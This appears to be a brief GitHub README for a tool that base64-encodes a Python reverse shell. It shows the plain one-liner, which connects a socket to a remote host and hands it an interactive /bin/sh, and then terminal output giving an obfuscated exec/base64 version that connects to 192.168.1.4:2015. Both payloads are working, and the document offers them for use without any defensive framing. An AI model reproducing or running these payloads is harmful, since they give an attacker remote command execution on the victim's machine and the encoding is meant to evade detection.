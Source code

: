 # python_fantan_shell_encode
base64 encoding this: python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.0.1″,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’


<p>
<\p>
➜  Downloads  python netcat.py 192.168.1.4 2015
python -c "exec( __import__( 'base64' ).decodestring( 'cz1fX2ltcG9ydF9fKCdzb2NrZXQnKS5zb2NrZXQoX19pbXBvcnRfXygnc29ja2V0JykuQUZfSU5F\nVCxfX2ltcG9ydF9fKCdzb2NrZXQnKS5TT0NLX1NUUkVBTSk7IHMuY29ubmVjdCgoJzE5Mi4xNjgu\nMS40JywgMjAxNSkpOyBfX2ltcG9ydF9fKCdvcycpLmR1cDIocy5maWxlbm8oKSwwKTsgX19pbXBv\ncnRfXygnb3MnKS5kdXAyKHMuZmlsZW5vKCksMSk7IF9faW1wb3J0X18oJ29zJykuZHVwMihzLmZp\nbGVubygpLDIpOyBwPV9faW1wb3J0X18oJ3N1YnByb2Nlc3MnKS5jYWxsKFsnL2Jpbi9zaCcsJy1p\nJ10p\n' ) )"
